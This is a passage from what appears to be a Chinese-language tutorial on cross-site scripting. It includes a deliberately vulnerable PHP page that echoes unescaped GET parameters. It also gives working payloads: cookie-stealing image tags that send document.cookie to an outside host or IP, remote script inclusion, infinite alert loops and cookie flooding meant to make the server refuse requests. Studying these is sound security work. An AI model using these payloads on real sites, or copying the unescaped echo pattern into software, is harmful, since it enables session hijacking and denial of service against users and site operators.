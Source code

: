 一般来说，破坏页面结构导致页面故障的xss行为，一般是用户发表的内容无意中包含了特定的字符串，因此不具有直接的破坏作用，只会影响网站的声誉。

### 执行恶意代码
恶意代码有无限种，有代码执行的环境，就可以为所欲为。下面简单列几种：

#### 增加cookie，导致cookie总长度超过4K，服务器直接拒绝响应
```
<script>setcookie(key,value)</script>
```

#### 获取用户cookie,仿冒顾客身份登陆
```
<script>document.write('<img src="http://xxx.cn/b.gif?d="'+document.cookie+'/>')</script>
```

#### 嵌入一个js文件，那可做的事情就多了去了
```
<script src='http://xxx.cn/b.js'></script>
```
## 样例
xss_url.php文件的内容如下：
```
<?php
    session_start();
    $html = $_GET['html']?$_GET['html']:"html";
    $attr = $_GET['attr']?$_GET['attr']:"attr";
    $js   = $_GET['js']?$_GET['js']:"js";
?>
<html>
<head>
    <script type="text/javascript">
    var js = "<?php echo $js ?>";
    </script>
</head>
<body>
    <input type="text" value="<?php echo $attr; ?>"></input>
    <div><?php echo $html ?></div>
</body>
</html>
```
例子文件中有三个参数，分别是输出在js中的内容js，输出在html标签属性中的内容attr，输出在html标签内的内容html。
js中的内容难以过滤和转义，有很多种办法都可以嵌入一些可执行的js片断。因此是不安全的。

下面构造了几个URL，可以进行适度的攻击：
### 不停弹出对话框，恶心人
```
<script type="text/javascript">while(true){alert(document.cookie)}</script>A
http://182.18.24.130/test/xss_url.php?html=a%3Cscript+type%3D%22text%2Fjavascript%22%3Ewhile%28true%29{alert%28document.cookie%29}%3C%2Fscript%3EA
``` 
### 在页面中写一个图片文件，图片的URL参数就是当前用户的cookie
```
<script type="text/javascript">document.write('<img src="http://182.18.24.130/test/c.gif?a='+document.cookie+'"></img>')</script>A
http://182.18.24.130/test/xss_url.php?html=a%3Cscript+type%3D%22text%2Fjavascript%22%3Edocument.write%28%27%3Cimg+src%3D%22http%3A%2F%2F182.18.24.130%2Ftest%2Fc.gif%3Fa%3D%27%2Bdocument.cookie%2B%27%22%3E%3C%2Fimg%3E%27%29%3C%2Fscript%3EA
 ```
### 恶意写入大量cookie，超出服务器上限，导致服务器拒绝响应
```
<script type="text/javascript">b='a';for(var i=0;i<1000;i++){b+=i};c=(new Date()).getTime();document.cookie='a'+c+'=b1000'+b </script>
```